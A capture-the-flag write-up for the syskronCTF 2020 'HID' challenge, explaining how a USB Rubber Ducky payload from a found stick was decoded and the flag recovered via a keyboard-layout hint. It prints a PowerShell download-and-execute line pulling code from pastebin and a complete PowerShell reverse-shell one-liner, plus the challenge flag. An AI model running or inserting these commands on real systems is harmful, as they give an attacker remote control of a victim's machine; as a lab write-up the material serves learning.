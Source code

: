 # HID (300 points)

## Description

One of my colleagues found a USB stick in the parking lot in front of our company. Fortunately he handed it over directly to us . The drive contains an SD card with just one file. Maybe it's no normal USB flash drive?

[Attached bin](https://github.com/holypower777/ctf_writeups/syskronCTF_2020/HID/inject.bin)

## Solution

Inject.bin found in usb... What could it be? Sure! Ducky scripts!

Let's google ducky scripts decoder. [**Here we are**](https://ducktoolkit.com/).

Having decoded the script, I started reading the code. I still don't understand what the code does, but I found an interesting line:
```
powershell "IEX *New/Object Net.WebClient(.DownloadString*~https>&&pastebin.com&raw&YRD8jsvd~(<"ENTER
```

Let's open that link to pastebin and get the 404 error :)
![](readme_files/XVVlj7ZIvCU.jpg)
I decided to search in google cache and Waybackk machine, but this page was not saved anywhere.

I tried to run the script in a virtual machine, but the script didn't do anything. Since I did not understand anything in the Daki scripts, I could not change them. I had no ideas and decided to open a hint.
```
There are different languages for your keyboard layout.
```
Switzerland was the answer. The link to pastebin has become valid, we open it and see the response with the flag
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Flag: syskronCTF{y0u_f0und_m3}